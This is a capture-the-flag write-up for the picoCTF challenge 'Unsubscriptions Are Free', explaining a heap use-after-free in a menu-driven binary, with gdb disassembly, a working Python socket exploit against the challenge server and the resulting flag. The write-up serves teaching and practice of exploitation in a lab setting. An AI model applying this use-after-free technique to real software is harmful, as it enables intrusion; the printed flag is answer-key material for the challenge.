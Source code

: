 # CTF Writeup: PicoCTF - Unsubscriptions Are Free

## Challenge Description

Check out my new video-game and spaghetti-eating streaming channel on Twixer! program and get a flag. source nc mercury.picoctf.net 58574

## Solution

### Introduction

The challenge provides us with a binary named vuln. After running the program, we are prompted with a CLI menu. The goal is to call a specific function to obtain the flag.

```
$ ./vuln
Welcome to my stream! ^W^
==========================
(S)ubscribe to my channel
(I)nquire about account deletion
(M)ake an Twixer account
(P)ay for premium membership
(l)eave a message(with or without logging in)
(e)xit

```

### Functions

#### (S)ubscribe to my channel

Next, we observe that when we perform the `(S)ubscribe to my channel` option, the `hahaexploitgobrrr` function is revealed. However, we must find a way to call it.

```
S
OOP! Memory leak...0x80487d6
Thanks for subsribing! I really recommend becoming a premium member!
...
```

#### hahaexploitgobrrr

The flag will be revealed by the hahaexploitgobrrr function.
```
$ gdb vuln
(gdb) set disassembly-flavor intel
(gdb) disassemble 0x80487d6
Dump of assembler code for function hahaexploitgobrrr:
   ...
   0x080487ff <+41>:	push   eax
   0x08048800 <+42>:	lea    eax,[ebx-0x21be]		# "flag.txt"
   0x08048806 <+48>:	push   eax
   0x08048807 <+49>:	call   0x8048670 <fopen@plt>
   0x0804880c <+54>:	add    esp,0x10
   0x0804880f <+57>:	mov    DWORD PTR [ebp-0xd8],eax
   0x08048815 <+63>:	sub    esp,0x4
   0x08048818 <+66>:	push   DWORD PTR [ebp-0xd8]
   0x0804881e <+72>:	push   0xc8
   0x08048823 <+77>:	lea    eax,[ebp-0xd4]
   0x08048829 <+83>:	push   eax
   ...
End of assembler dump

```

#### (I)nquire about account deletion

This function will free the user object contains the addresses of functions to be called.

#### (M)ake an Twixer account

This function will allocate memory for the user object.

#### (l)eave a message(with or without logging in)

This function can add a message to the heap, and if the user object was previously freed, it can cause a use-after-free vulnerability by overwriting the user object and redirecting code execution.


### Exploit

Now that we successfully were able to redirect code execution, let's create an exploit script to get the flag.

To exploit the program:

1. Subscribe to the channel to obtain the hahaexploitgobrrr function address.
2. Register to create a user object.
3. Request account deletion to free the user object.
4. Leave a message to overwrite the user object in the heap with hahaexploitgobrrr. (This causes use-after-free)
5. Retrieve the flag.

```python
import socket
import struct

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("mercury.picoctf.net", 58574))

s.recv(1024).decode()
s.recv(1024).decode()

s.send(b'M')

s.recv(1024).decode()
s.recv(1024).decode()

s.send(b'asdf\n')

s.recv(1024).decode()
s.recv(1024).decode()

s.send(b'S')

s.recv(19).decode()

addr = s.recv(19)[2:-1]

hahaexploitgobrrr = struct.pack("I", int(addr, 16))

s.recv(1024).decode()

s.send(b'I')

s.recv(1024).decode()

s.send(b'Y')

s.recv(1024).decode()
s.recv(1024).decode()

s.send(b'L')

s.recv(1024).decode()
s.recv(1024).decode()

s.send(hahaexploitgobrrr)

print(s.recv(1024).decode())
s.recv(1024).decode()

```

```
john@john:~/CTF/picoctf/unsubscriptions_are_free$ python3 exploit.py 
picoCTF{d0ubl3_j30p4rdy_ec42c6fc}
```
